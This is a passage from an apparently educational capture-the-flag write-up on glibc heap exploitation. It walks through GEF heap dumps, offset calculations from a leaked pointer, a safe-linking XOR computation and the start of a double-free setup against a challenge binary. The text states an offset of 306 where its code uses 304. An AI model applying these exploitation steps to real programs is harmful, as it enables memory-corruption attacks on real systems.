 ```
    [0x000055cd0b46c3a0     bc 77 96 57 c8 55 00 00 00 00 00 00 00 00 00 00    .w.W.U..........]
Chunk(addr=0x55cd0b46c3c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c3c0     74 78 74 0a 00 55 00 00 00 00 00 00 00 00 00 00    txt..U..........]
Chunk(addr=0x55cd0b46c3e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c3e0     6c b4 d0 5c 05 00 00 00 00 00 00 00 00 00 00 00    l..\............]
Chunk(addr=0x55cd0b46c400, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c400     4c 70 96 57 c8 55 00 00 e2 e7 c2 d0 ab d9 8f b3    Lp.W.U..........]
Chunk(addr=0x55cd0b46c420, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c420     2c 70 96 57 c8 55 00 00 e2 e7 c2 d0 ab d9 8f b3    ,p.W.U..........]
Chunk(addr=0x55cd0b46c440, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c440     0c 70 96 57 c8 55 00 00 e2 e7 c2 d0 ab d9 8f b3    .p.W.U..........]
Chunk(addr=0x55cd0b46c460, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c460     ec 70 96 57 c8 55 00 00 e2 e7 c2 d0 ab d9 8f b3    .p.W.U..........]
Chunk(addr=0x55cd0b46c480, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000055cd0b46c480     6c b4 d0 5c 05 00 00 00 e2 e7 c2 d0 ab d9 8f b3    l..\............]
Chunk(addr=0x55cd0b46c4a0, size=0x20b70, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
It points somewhere between two chunks. But the most important is that we can calculate the offset between this pointer, and the pointer to the flag located which is `0x000055cd0b46c330`:
```py
>>> 0x55cd0b46c3d0 - 0x000055cd0b46c330
160
```
There is an offset of 160 bytes, so we can get the address to the flag:
```py
flag_address = hex(int(unprotected_address, 16) - 160)[2:]
print("Flag = 0x" + flag_address)
```
Also, as we want to access to this flag, we need to write at the location of one of the slot. We can compute the address of the slot 0 the same way as before, and we can see there is an offset of 306:
```py
slot_zero_address = hex(int(unprotected_address, 16)-304)[2:]
print("Slot 0 address = 0x" + slot_zero_address)
```
Because we will want to get a pointer to this address using `malloc`, we can already compute the protected address to this slot:
```py
protected_slot_zero_address = hex(int(base_address, 16) ^ int(slot_zero_address, 16))[2:]
print("Slot 0 protected address = 0x" + protected_slot_zero_address)
```
We are now ready to exploit the double free vulnerability.
#### Double free setup
By exploiting the double free, we can make a chunk appearing twice in the heap. Let's look at the current heap:
```
gef➤  heap bins
[...]
─ Fastbins for arena at 0x7fe8af084c60 ─
Fastbins[idx=0, size=0x20]  ←  Chunk(addr=0x562d5537f3a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x562d5537f3e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

gef➤  x/16gx 0x0000562d5537f2a0
0x562d5537f2a0:	0x0000562d5537f330	0x0000562d5537f3c0
0x562d5537f2b0:	0x0000562d5537f3a0	0x0000562d5537f3c0
0x562d5537f2c0:	0x0000562d5537f3e0	0x0000000000000000
0x562d5537f2d0:	0x0000000000000000	0x0000000000000000
0x562d5537f2e0:	0x0000000000000000	0x0000000000000000
0x562d5537f2f0:	0x0000000000000000	0x0000000000000000
0x562d5537f300:	0x0000000000000000	0x0000000000000000
0x562d5537f310:	0x0000000000000000	0x0000000000000000
```